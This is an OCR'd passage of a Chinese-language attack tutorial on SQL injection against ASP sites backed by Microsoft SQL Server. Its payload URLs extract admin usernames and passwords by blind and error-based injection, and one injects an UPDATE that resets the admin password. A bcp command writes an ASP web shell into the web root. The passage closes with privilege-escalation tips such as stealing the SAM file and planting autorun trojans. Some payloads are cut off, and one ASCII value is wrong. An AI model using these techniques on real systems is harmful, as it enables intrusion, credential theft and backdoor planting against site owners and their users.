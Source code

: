 ```
HTTP://xxx.xxx.xxx/abc.asp?p=YY and (select top ... e) from TestDB.dbo.admin)=8时abc.asp
```
运行正常，则第一个用户名的长度为8
　　
```
HTTP://xxx.xxx.xxx/abc.asp?p=YY and (sel ... ascii(substring(username,m,1)) from TestDB.dbo.admin)=n
```
(m的值在1到上一步得到的用户名长度之间，当m=1，2,3，…时猜测分别猜测第1,2,3,…位的值；n的值是1~9、a~z、A~Z的ASCII值，也就是1~128之间的任意值；admin为系统用户帐号表的名称)，若n为某一值i且abc.asp运行正常时，则i对应ASCII码就是用户名某一位值。如：当输入
　
```
HTTP://xxx.xxx.xxx/abc.asp?p=YY and (sel ... ascii(substring(username,3,1)) from TestDB.dbo.admin)=80
```
时abc.asp运行正常，则用户名的第三位为P(P的ASCII为80)；
　
```
HTTP://xxx.xxx.xxx/abc.asp?p=YY and (sel ... ascii(substring(username,9,1)) from TestDB.dbo.admin)=33
```
时abc.asp运行正常，则用户名的第9位为!(!的ASCII为80)；
　　猜到第一个用户名及密码后，同理，可以猜出其他所有用户名与密码。注意：有时得到的密码可能是经MD5等方式加密后的信息，还需要用专用工具进行脱密。或者先改其密码，使用完后再改回来，见下面说明。
- 简单法：猜用户名用
　　
```
HTTP://xxx.xxx.xxx/abc.asp?p=YY and (select top 1 ... o.admin where username>1)
```
 flag是admin表中的一个字段，username是用户名字段，此时abc.asp工作异常，但能得到Username的值。与上同样的方法，可以得到第二用户名，第三个用户等等，直到表中的所有用户名。
　　
猜用户密码：
```
HTTP://xxx.xxx.xxx/abc.asp?p=YY and (select top 1&nb ... B.dbo.admin where pwd>1)
```
flag是admin表中的一个字段，pwd是密码字段，此时abc.asp工作异常，但能得到pwd的值。与上同样的方法，可以得到第二用户名的密码，第三个用户的密码等等，直到表中的所有用户的密码。密码有时是经MD5加密的，可以改密码。
　
```
HTTP://xxx.xxx.xxx/abc.asp?p=YY;update TestDB.dbo.admin set pwd=' ... where username='www';-- ( 1的MD5值为：AAABBBCCCDDDEEEF，即把密码改成1；www为已知的用户名)
```

　　用同样的方法当然可把密码改原来的值。
#### 2、利用表内容导成文件功能
　　SQL有BCP命令，它可以把表的内容导成文本文件并放到指定位置。利用这项功能，我们可以先建一张临时表，然后在表中一行一行地输入一个ASP木马，然后用BCP命令导出形成ASP文件。
　　命令行格式如下：
　　bcp "select * from text..foo" queryout c:\inetpub\wwwroot\runcommand.asp –c –S localhost –U sa –P foobar ('S'参数为执行查询的服务器，'U'参数为用户名，'P'参数为密码，最终上传了一个runcommand.asp的木马)
### 六、得到系统的管理员权限
ASP木马只有USER权限，要想获取对系统的完全控制，还要有系统的管理员权限。怎么办？提升权限的方法有很多种：
- 上传木马，修改开机自动运行的.ini文件(它一重启，便死定了)；
- 复制CMD.exe到scripts，人为制造UNICODE漏洞；
- 下载SAM文件，破解并获取OS的所有用户名密码；
等等，视系统的具体情况而定，可以采取不同的方法。
